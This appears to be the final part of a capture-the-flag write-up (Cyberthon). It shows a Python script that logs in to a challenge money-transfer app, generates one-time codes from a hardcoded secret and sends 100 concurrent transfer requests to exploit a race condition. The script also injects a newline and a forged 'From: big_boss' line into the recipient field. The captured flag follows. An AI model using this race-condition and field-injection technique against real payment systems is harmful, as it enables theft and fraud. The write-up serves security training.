 ```python
  
async def transfer(client: httpx.AsyncClient, username, otp):  
    res = await client.post(f"{url}/transfer", data={"to": f"{username}\nFrom: big_boss", "amount": "10000", "otp": otp})  
    return "Success" in res.text  
  
async def main():  
    async with httpx.AsyncClient() as client:  
        res = await client.post(f"{url}/login", data={"username": "someuser", "password": "someuser"})  
        print(res.text)  
        # client.cookies.set("session", input("Session token"))  
        queue = []  
        # otp = input("Enter OTP: ")  
        totp = pyotp.TOTP("42II463B7OQ42MMLN3TGIZE5QI======")  
        otp = totp.now()  
        for i in range(100):  
            res = transfer(client, "someuser", otp)  
            queue.append(res)  
        queue = await asyncio.gather(*queue)  
        print(queue)  
  
  
asyncio.run(main())
```
With that, we have enough money and can buy the flag
![[Pasted image 20250516225046.png]]
![[Pasted image 20250516224919.png]]
`Cyberthon{time_t0_g3t4w4y_w1th_th3_l00t}`